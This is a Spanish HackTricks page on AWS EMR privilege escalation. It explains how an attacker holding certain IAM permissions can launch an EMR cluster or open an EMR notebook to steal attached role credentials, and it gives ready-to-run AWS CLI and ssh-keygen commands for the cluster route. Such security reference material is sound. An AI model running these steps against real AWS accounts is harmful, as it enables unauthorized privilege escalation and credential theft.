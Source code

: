 # AWS - EMR Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## EMR

Más **información sobre EMR** en:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Un atacante con estos permisos puede **ejecutar un nuevo clúster EMR adjuntando roles de EC2** e intentar robar sus credenciales.\
Tenga en cuenta que para hacer esto, necesitaría **conocer alguna clave privada ssh importada en la cuenta** o importar una, y ser capaz de **abrir el puerto 22 en el nodo maestro** (podría hacer esto con los atributos `EmrManagedMasterSecurityGroup` y/o `ServiceAccessSecurityGroup` dentro de `--ec2-attributes`).

```bash
# Importar la clave ssh de EC2 (necesitará permisos adicionales para esto)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
    --key-name "privesc" \
    --public-key-material file:///tmp/pub.key


aws emr create-cluster \
    --release-label emr-5.15.0 \
    --instance-type m4.large \
    --instance-count 1 \
    --service-role EMR_DefaultRole \
    --ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Esperar 1 minuto y conectarse a través de ssh a una instancia de EC2 del clúster)
aws emr describe-cluster --cluster-id <id>
# En MasterPublicDnsName se puede encontrar el DNS para conectarse a la instancia maestra
## También se puede obtener esta información listando las instancias de EC2
```

Observe cómo se especifica un **rol EMR** en `--service-role` y un **rol ec2** se especifica en `--ec2-attributes` dentro de `InstanceProfile`. Sin embargo, esta técnica solo permite robar las credenciales del rol EC2 (ya que se conectará a través de ssh) pero no el rol IAM de EMR.

**Impacto potencial:** Privesc al rol de servicio EC2 especificado.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Con estos permisos, un atacante puede ir a la **consola de AWS**, crear un Notebook y acceder a él para robar el rol IAM.

{% hint style="danger" %}
Incluso si adjunta un rol IAM a la instancia del notebook, en mis pruebas noté que pude robar credenciales administradas por AWS y no credenciales relacionadas con el rol IAM relacionado.
{% endhint %}

**Impacto potencial:** Privesc al rol administrado por AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Solo con este permiso, un atacante podrá acceder al **Jupyter Notebook y robar el rol IAM** asociado a él.\
La URL del notebook es `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Incluso si adjunta un rol IAM a la instancia del notebook, en mis pruebas noté que pude robar credenciales administradas por AWS y no credenciales relacionadas con el rol IAM relacionado.
{% endhint %}

**Impacto potencial:** Privesc al rol administrado por AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
